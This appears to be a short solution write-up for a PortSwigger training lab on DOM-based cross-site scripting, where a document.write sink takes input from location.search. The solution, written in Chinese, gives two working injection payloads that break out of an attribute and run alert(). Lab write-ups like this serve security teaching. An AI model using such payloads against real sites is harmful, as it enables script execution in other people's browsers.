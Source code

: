 # DOM XSS in document.write sink using source location.search

## Information
---

- [PortSwigger - Lab: DOM XSS in document.write sink using source location.search](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)

This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the alert function.


## Solution
---

1. 使用以下任意一個 payload 輸入至 search 方框當中。
    ```html
    "><svg onload=alert()>
    "><script>alert()</script>
    ```